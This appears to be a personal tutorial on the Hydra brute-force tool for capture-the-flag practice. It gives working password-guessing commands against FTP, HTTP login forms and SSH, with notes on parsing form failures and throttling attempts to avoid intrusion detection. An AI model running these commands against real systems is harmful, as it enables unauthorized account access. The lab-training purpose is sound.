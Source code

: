 # hydra

Hydra is a very powerful tool to brute force a system. I can provide it with a wordlist to try for the username or password in a login attempt. It will run the attempts in parrallel. Hydra is also aware of many different services and protocols. I can use this same tool to brute force ssh, ftp, PostgreSQL, smb and more. Some tools like community edition of Burp Suite rate limits my login attempts and so understanding how to use Hydra saves me from purchasing a Burp Suite license.

## Usage

Running `hydra -h` provided the following output:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -q        do not print messages about connection errors
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
These services were not compiled in: afp ncp oracle sapr3.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

## Examples

The following examples are ones that I have used in capture the flag exercises. The wordlists that are provided are ones that are found on Kali unless otherwise specified.

For each of the examples below, here are the variables that I am using:

- Username of `bob`
- Password wordlist found in `/usr/share/wordlist/rockyou.txt`
- The target machine is found at ip address `10.10.1.1`

### ftp

There are a lot of companies and users that still use ftp servers. Unfortunately, these servers are not very secure and often have sensitive documents on them. Don't sleep on how valuable an ftp server can be.

The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ftp`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ftp://10.10.1.1`

### ftps

Using ftps is better than ftp for security.

The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ftps`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ftps://10.10.1.1`

### http-get

When I go to a website that has basic HTTP authentication (a site that asks for a username and password in a javascript popup), hydra can brute force that site. I typically see these on admin sites running outside ports 80 or 443.

The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 http-get`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get://10.10.1.1`

### http-post-form

This is where I use hydra the most. In a capture the flag event, I have found a username and I need to loop over a list of passwords to log into the admin section of a website. I'll manually attempt to log into the site and get the error message for a failed login attempt. In this example, the failed message is "Invalid Login".

The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 http-post-form "/index.php:username=^USER^&password=^PASS^:F=Invalid Login"`

Most of the items on here are familiar. The last section where things are more complicated. The last section is split into 3 parts and are seperated by the ':' character. Here is a breakdown of each part:

- `/index.php` is the path to the form I am trying to post to.
- `username=^USER^&password=^PASS^` are where I pass in my username and password that were set with the -l and -P variables at the start of the command. In this case, `username` and `password` are variables of the form located at `/index.php`. They need to match the parameters of the form I am trying to brute force.
- `F=Invalid Login` is how I tell hydra what will be in the response when there is a failure. If a username and password succeed, "Invalid Login" will not be in the resposne.

### ssh

If a system is vulnerable to an ssh brute force (meaning if I type `ssh target_machine` and it asks for a password) and I have either a username or password, hydra can help you gain access.

The syntax is the following when not including options:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh:10.10.1.1`

Hydra will then use go through each of the entries in the wordlist and report if any of the entries worked. The output will look like the following:

`[22][ssh] host: 10.10.1.1    login: bob     password: 123456`

### Options

Because systems like Linux are so configurable, capture the flag events will configure services in many different ways so that I have to read the manual for the different tools I am using. Below are some options are useful to know about.

#### -h

The output provided above was generated with this option. This options always gives me the most up to date information about the hydra options I am using. The syntax is the following:

`hydra -h`

#### -s PORT

Sometimes a service is running on a different port. I use this option to let hydra know that the service isn't using the standard port for that service. For example, if ssh was running on port 9000 instead of the usual 22, I would run the following:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -s 9000`

#### -v and -vV

Sometimes I want to make sure things are running as I was intending them to run. Maybe I need a sanity check to make sure I got the syntax correct. The verbose options can help with that. The `-v` option will add output lines that start with `[VERBOSE]` or `[STATUS]`, making the output more verbose. The `-V` option will add output lines that start with `[ATTEMPT]` that show each attempt. When I want to use either one, the sytax is the following:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -v`

or

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -V`

I can also use them together using:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -vV`

#### -c TIME

Sometimes I know that I need to rate limit my login attempts due to a network intrusion detection system or perhaps the server I am brute forcing naturally rate limits my login attempts. In either case I can specify the wait time per login attempt. Each thread will use this option. Here is the syntax to wait 3 seconds between each attempt:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -c 3`

#### -t TASKS

If I am trying to brute force a single target, I can specify the maximum number of connections for that target. This can be really handy if my machine and the target have a lot of resources and can handle the load. By default, this number is 16. In this example I am going to double the connections. Here is the syntax I used to change it:

`hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.1.1 ssh -t 32`
